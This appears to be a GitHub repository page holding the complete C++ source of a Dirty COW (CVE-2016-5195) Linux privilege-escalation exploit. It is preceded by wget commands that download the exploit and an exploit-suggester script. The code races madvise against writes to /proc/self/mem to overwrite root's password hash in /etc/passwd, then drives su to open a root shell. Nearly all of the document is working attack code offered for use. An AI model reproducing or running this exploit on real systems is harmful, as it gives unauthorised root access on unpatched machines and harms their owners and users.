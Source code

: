 
wget https://raw.githubusercontent.com/Yinyayoli/dir-cow-2/master/linux-exploit-suggester.sh -O dcow.sh

wget https://raw.githubusercontent.com/Yinyayoli/dir-cow-2/master/40847.cpp -O 40847.cpp

wget https://raw.githubusercontent.com/Yinyayoli/dir-cow-2/master/dcow -O exploit.sh

# dir-cow-2
// EDB-Note: Compile:   g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
// EDB-Note: Recommended way to run:   ./dcow -s    (Will automatically do "echo 0 > /proc/sys/vm/dirty_writeback_centisecs")
//
// -----------------------------------------------------------------
// Copyright (C) 2016  Gabriele Bonacini
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License as published by
// the Free Software Foundation; either version 3 of the License, or
// (at your option) any later version.
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
// You should have received a copy of the GNU General Public License
// along with this program; if not, write to the Free Software Foundation,
// Inc., 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301  USA
// -----------------------------------------------------------------

#include <iostream>
#include <fstream>
#include <string>
#include <thread>
#include <sys/mman.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/types.h>
#include <pwd.h>
#include <pty.h>
#include <string.h>
#include <termios.h>
#include <sys/wait.h>
#include <signal.h>

#define  BUFFSIZE    1024
#define  PWDFILE     "/etc/passwd"
#define  BAKFILE     "./.ssh_bak"
#define  TMPBAKFILE  "/tmp/.ssh_bak"
#define  PSM         "/proc/self/mem"
#define  ROOTID      "root:"
#define  SSHDID      "sshd:"
#define  MAXITER     300
#define  DEFPWD      "$6$P7xBAooQEZX/ham$9L7U0KJoihNgQakyfOQokDgQWLSTFZGB9LUU7T0W2kH1rtJXTzt9mG4qOoz9Njt.tIklLtLosiaeCBsZm8hND/"
#define  TXTPWD      "dirtyCowFun\n"
#define  DISABLEWB   "echo 0 > /proc/sys/vm/dirty_writeback_centisecs\n"
#define  EXITCMD     "exit\n"
#define  CPCMD       "cp "
#define  RMCMD       "rm "

using namespace std;

class Dcow{
    private:
       bool              run,        rawMode,     opShell,   restPwd;
       void              *map;
       int               fd,         iter,        master,    wstat;
       string            buffer,     etcPwd,      etcPwdBak,
                         root,       user,        pwd,       sshd;
       thread            *writerThr, *madviseThr, *checkerThr;
       ifstream          *extPwd;
       ofstream          *extPwdBak;
       struct passwd     *userId;
       pid_t             child;  
       char              buffv[BUFFSIZE];
       fd_set            rfds;
       struct termios    termOld,    termNew;
       ssize_t           ign;

       void exitOnError(string msg);
    public:
       Dcow(bool opSh, bool rstPwd);
       ~Dcow(void);
       int  expl(void);         
};

Dcow::Dcow(bool opSh, bool rstPwd) : run(true), rawMode(false), opShell(opSh), restPwd(rstPwd),
                   iter(0), wstat(0), root(ROOTID), pwd(DEFPWD), sshd(SSHDID), writerThr(nullptr),
                   madviseThr(nullptr), checkerThr(nullptr), extPwd(nullptr), extPwdBak(nullptr), 
                   child(0){ 
   userId = getpwuid(getuid());
   user.append(userId->pw_name).append(":");
   extPwd = new ifstream(PWDFILE);   
   while (getline(*extPwd, buffer)){
       buffer.append("\n");
       etcPwdBak.append(buffer);
       if(buffer.find(root) == 0){
          etcPwd.insert(0, root).insert(root.size(), pwd);
          etcPwd.insert(etcPwd.begin() + root.size() + pwd.size(), 
                        buffer.begin() + buffer.find(":", root.size()), buffer.end());
       }else if(buffer.find(user) == 0 ||  buffer.find(sshd) == 0 ){
          etcPwd.insert(0, buffer);
       }else{
          etcPwd.append(buffer);
       }
   }
   extPwdBak = new ofstream(restPwd ? TMPBAKFILE : BAKFILE);
   extPwdBak->write(etcPwdBak.c_str(), etcPwdBak.size());
   extPwdBak->close();
   fd = open(PWDFILE,O_RDONLY);
   map = mmap(nullptr, etcPwdBak.size(), PROT_READ,MAP_PRIVATE, fd, 0);
}

Dcow::~Dcow(void){
   extPwd->close();
   close(fd);
   delete extPwd; delete extPwdBak; delete madviseThr; delete writerThr; delete checkerThr;
   if(rawMode)    tcsetattr(STDIN_FILENO, TCSANOW, &termOld);
   if(child != 0) wait(&wstat); 
}

void Dcow::exitOnError(string msg){
      cerr << msg << endl;
      // if(child != 0) kill(child, SIGKILL);
      throw new exception();
}

int  Dcow::expl(void){
   madviseThr = new thread([&](){ while(run){ madvise(map, etcPwdBak.size(), MADV_DONTNEED);} });
   writerThr  = new thread([&](){ int fpsm = open(PSM,O_RDWR);  
                                  while(run){ lseek(fpsm, reinterpret_cast<off_t>(map), SEEK_SET); 
                                              ign = write(fpsm, etcPwd.c_str(), etcPwdBak.size()); }
                                });
   checkerThr = new thread([&](){ while(iter <= MAXITER){ 
                                         extPwd->clear(); extPwd->seekg(0, ios::beg); 
                                         buffer.assign(istreambuf_iterator<char>(*extPwd),
                                                       istreambuf_iterator<char>());
                                         if(buffer.find(pwd) != string::npos && 
                                            buffer.size() >= etcPwdBak.size()){
                                                run = false; break;
                                         }
                                         iter ++; usleep(300000);
                                   }
                                   run = false;
                                 });

  cerr << "Running ..." << endl;
  madviseThr->join();
  writerThr->join();
  checkerThr->join();

  if(iter <= MAXITER){ 
       child = forkpty(&master, nullptr, nullptr, nullptr);

       if(child == -1) exitOnError("Error forking pty.");

       if(child == 0){ 
          execlp("su", "su", "-", nullptr);
          exitOnError("Error on exec.");
       }

       if(opShell) cerr << "Password overridden to: " <<  TXTPWD << endl;
       memset(buffv, 0, BUFFSIZE);
       ssize_t bytes_read = read(master, buffv, BUFFSIZE - 1);
       if(bytes_read <= 0) exitOnError("Error reading  su prompt.");
       cerr << "Received su prompt (" << buffv << ")" << endl; 

       if(write(master, TXTPWD, strlen(TXTPWD)) <= 0) 
            exitOnError("Error writing pwd on tty.");

       if(write(master, DISABLEWB, strlen(DISABLEWB)) <= 0) 
            exitOnError("Error writing cmd on tty.");

       if(!opShell){
            if(write(master, EXITCMD, strlen(EXITCMD)) <= 0) 
                 exitOnError("Error writing exit cmd on tty.");
       }else{
           if(restPwd){
               string restoreCmd = string(CPCMD).append(TMPBAKFILE).append(" ").append(PWDFILE).append("\n");
               if(write(master, restoreCmd.c_str(), restoreCmd.size()) <= 0) 
                    exitOnError("Error writing restore cmd on tty.");
               restoreCmd        = string(RMCMD).append(TMPBAKFILE).append("\n");
               if(write(master, restoreCmd.c_str(), restoreCmd.size()) <= 0) 
                    exitOnError("Error writing restore cmd (rm) on tty.");
           }

           if(tcgetattr(STDIN_FILENO, &termOld) == -1 )
                exitOnError("Error getting terminal attributes.");
    
           termNew               = termOld;
           termNew.c_lflag       &= static_cast<unsigned long>(~(ICANON | ECHO));
    
           if(tcsetattr(STDIN_FILENO, TCSANOW, &termNew) == -1)
                exitOnError("Error setting terminal in non-canonical mode.");
           rawMode = true;
    
           while(true){
                FD_ZERO(&rfds);
                FD_SET(master, &rfds);
                FD_SET(STDIN_FILENO, &rfds);
    
                if(select(master + 1, &rfds, nullptr, nullptr, nullptr) < 0 )
                    exitOnError("Error on select tty.");
    
                if(FD_ISSET(master, &rfds)) {
                    memset(buffv, 0, BUFFSIZE);
                    bytes_read = read(master, buffv, BUFFSIZE - 1);
                    if(bytes_read <= 0) break;
                    if(write(STDOUT_FILENO, buffv, bytes_read) != bytes_read)
                          exitOnError("Error writing on stdout.");
                }
    
                if(FD_ISSET(STDIN_FILENO, &rfds)) {
                    memset(buffv, 0, BUFFSIZE);
                    bytes_read = read(STDIN_FILENO, buffv, BUFFSIZE - 1);
                    if(bytes_read <= 0) exitOnError("Error reading from stdin.");
                    if(write(master, buffv, bytes_read) != bytes_read) break;
                }
            }
      }
  }
 
  return [](int ret, bool shell){ 
       string msg = shell ? "Exit.\n" : string("Root password is:   ") + TXTPWD + "Enjoy! :-)\n";
       if(ret <= MAXITER){cerr << msg; return 0;}
       else{cerr << "Exploit failed.\n"; return 1;} 
  }(iter, opShell);
}

void printInfo(char* cmd){
      cerr << cmd << " [-s] [-n] | [-h]\n" << endl;
      cerr << " -s  open directly a shell, if the exploit is successful;" << endl;
      cerr << " -n  combined with -s, doesn't restore the passwd file." << endl;
      cerr << " -h  print this synopsis;" << endl;
      cerr << "\n If no param is specified, the program modifies the passwd file and exits." << endl;
      cerr << " A copy of the passwd file will be create in the current directory as .ssh_bak" << endl;
      cerr << " (unprivileged user), if no parameter or -n is specified.\n" << endl;
      exit(1);
}

int main(int argc, char** argv){
   const char  flags[]   = "shn";
   int         c;
   bool        opShell   = false,
               restPwd   = true;

   opterr = 0;
   while ((c = getopt(argc, argv, flags)) != -1){
      switch (c){
         case 's':
            opShell = true;
         break;
         case 'n':
            restPwd = false;
         break;
         case 'h':
            printInfo(argv[0]);
         break;
         default:
            cerr << "Invalid parameter." << endl << endl;
            printInfo(argv[0]);
      }
   }

   if(!restPwd && !opShell){
            cerr << "Invalid parameter: -n requires -s" << endl << endl;
            printInfo(argv[0]);
   }

   Dcow dcow(opShell, restPwd);
   return dcow.expl();
}
